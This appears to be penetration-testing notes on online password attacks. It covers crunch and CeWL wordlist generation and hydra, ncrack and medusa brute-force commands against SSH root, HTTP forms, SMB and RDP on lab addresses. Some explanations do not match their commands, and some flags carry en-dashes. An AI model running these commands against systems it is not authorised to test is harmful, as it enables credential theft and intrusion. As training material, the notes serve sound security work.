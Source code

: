 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

> `crunch [min] [max] [characterset] -t [pattern] -o [output filename]`

min = minimum password length
max = maximum password length
characterset = The character set to be used in generating the passwords
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728. 

>  `./crunch 1 1 -p pen test lab`

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

> `./crunch 6 6 0123456789 -b 1mb -o START`

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> `./crunch 3 3 -f charset.lst lalpha -o START -c 20`

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is [abcdefghijklmnopqrstuvwxyz].

> `./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@`

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

> `cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org`


## Bruteforce
### Hydra 

> `hydra -l username -p passwordlist.txt [target (ip address and port)]`

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> `hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh`

-l = the username 

-L = list of usernames (if you don't know the login)

-p = password (never used) 

-P - the directory for the wordlists (file)

-M FILE   list of servers to be attacked in parallel, one entry per line 


Less common options:
-vV = verbose mode, shows you every login attempt hydra tries 

-s = specify the port on which we running our attack 

-e ns = checks for blank or no password fields 

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce
> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`



### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt  rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`



